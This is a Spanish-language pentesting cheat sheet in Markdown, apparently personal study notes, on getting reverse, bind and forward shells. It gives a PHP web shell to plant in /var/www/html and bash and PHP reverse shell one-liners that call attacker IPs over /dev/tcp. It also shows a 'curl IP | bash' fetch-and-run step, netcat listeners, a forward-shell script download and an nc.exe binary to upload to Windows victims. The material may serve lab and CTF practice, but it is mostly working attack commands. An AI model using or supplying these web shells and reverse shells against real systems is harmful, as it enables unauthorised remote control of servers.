 # Diferentes tipos de ReverShell

Tags: #ReverShell #Comandos 

Tenemos diferntes tipos de [1 ReverShell](1%20ReverShell.md) en este pagina Web: [Monkey-Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## ReverShell, BindShell
Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```php
❯ nano cmd.php
	<?php 
		echo "<prep>" . shell_exec($_GET['cmd']) . "</prep>";
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahi pode colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de **Atacante**.

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

ReverShell en php
```php
<?php
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

	# IP = IP de atacante
	# 443 = Puerto a usar
```

Para ponernos en escucha por Netcat en espera de la **ReverShell**:
1) Linux
2) Windows
```bash
❯ nc -nlvp 443 

❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```

Para ejecutar Netcat y hacer la **BindShell**: 
```bash
❯ nc IP-Victima 443
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	<?php 
		echo shell_exec($_GET['cmd']);
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahi pode colocar comandos y conectarmos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```


### Binario para Windows

Este .exe lo debemos de subir a la maquina victima en Windows
```bash
❯ /usr/share/Seclists/Web-Shells/FuzzDB/nc.exe           # Netcat .exe nos ayuda a conseguir una ReverShell en Windows
```